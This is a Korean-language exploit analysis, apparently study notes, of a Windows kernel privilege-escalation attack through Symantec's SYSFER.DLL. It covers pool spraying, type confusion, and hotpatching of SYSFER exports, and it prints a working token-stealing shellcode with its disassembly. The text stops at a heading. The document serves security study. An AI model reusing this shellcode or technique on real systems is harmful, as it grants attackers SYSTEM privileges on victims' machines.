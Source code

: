 [OkayToCloseProcedure callback kernel hook](http://rce4fun.blogspot.kr/2014/07/okaytocloseprocedure-callback-kernel_9.html)

* IoCompletionReserve object 로 spraying 을 한다음에, close 를 해줘서 hole 을 만든다.
* ioctl() 을 해서 hole 사이에 메모리를 alloc 하고, next object 의 Type Index 를 0 으로 만들어서 type confusion 을 일으킨다.
* 이제 handle 을 close 하면, type confusion 때문에 엉뚱한 주소에서 OkayToCloseProcedure 를 읽는다.
* OkayToCloseProcedure 에는 0x00000078 을 넣어놓고, 0x00000078 에는 shellcode 를 세팅해둔다.
* Shellcode 는 Type Index 를 repair 하고, `nt authority\SYSTEM` 을 훔친다.

#### Token Stealing Shellcode

Exploit 에서 사용된 shellcode 는 token stealing shellcode.

```
tokenstealing = (
"\x33\xC0\x64\x8B\x80\x24\x01\x00\x00\x8B\x40\x50\x8B\xC8\x8B\x80"
"\xB8\x00\x00\x00\x2D\xB8\x00\x00\x00\x83\xB8\xB4\x00\x00\x00\x04"
"\x75\xEC\x8B\x90\xF8\x00\x00\x00\x89\x91\xF8\x00\x00\x00\xC2\x10"
"\x00"
)
```

Disassemble 해봤다. 

```
33c0                    xor eax,eax
648b8024010000          mov eax,DWORD PTR fs:[eax+0x124]
8b4050                  mov eax,DWORD PTR [eax+0x50]
8bc8                    mov ecx,eax
loc_0000000e:
8b80b8000000            mov eax,DWORD PTR [eax+0xb8]
2db8000000              sub eax,0xb8
83b8b400000004          cmp DWORD PTR [eax+0xb4],0x4
75ec                    jne loc_0000000e
8b90f8000000            mov edx,DWORD PTR [eax+0xf8]
8991f8000000            mov DWORD PTR [ecx+0xf8],edx
c21000                  ret 0x10
```

`EPROCESS` 구조체에서 `Token` 필드를 조작한다. 상위권한을 가지고 있는 프로세스의 토큰을 카피해 놓는 것이다.
`SYSTEM` 프로세스에서 카피하는데 XP, 2003, Vista 에서는 PID 0x4.

Target 이 IDLE 상태라면, `FS:[0x124]` 가 ETHREAD 를 가리키니까 여기서 EPROCESS 를 구한다.

#### Hotpatching SYSFER.DLL

1. VirtualAllocEx() 로 cmd.exe 프로세스 내부에 메모리를 할당받는다.
2. 할당받은 메모리에 크기 `0x44c` 만큼의 악의적인 데이터를 깔아놓는다. 나중에 이걸로 kernel memory 를 오염시킬것이다.
3. SEP 가 cmd.exe 에 inject 한 SYSFER.dll 의 주소를 찾는다. 
4. 저 주소를 베이스로, GetProcAddress() 를 써서 SYSFER.DLL 이 export 한 `child_block` 과 `child_block_size` 의 주소를 찾아낸다.
5. 2 번의 메모리 주소로 `child_block` 을 overwrite 한다. 이제 `child_block` 은 악의적인 데이터를 포인팅한다.
6. `0x44c` 로 `child_block_size` 를 overwrite 한다.

#### Evil child_block
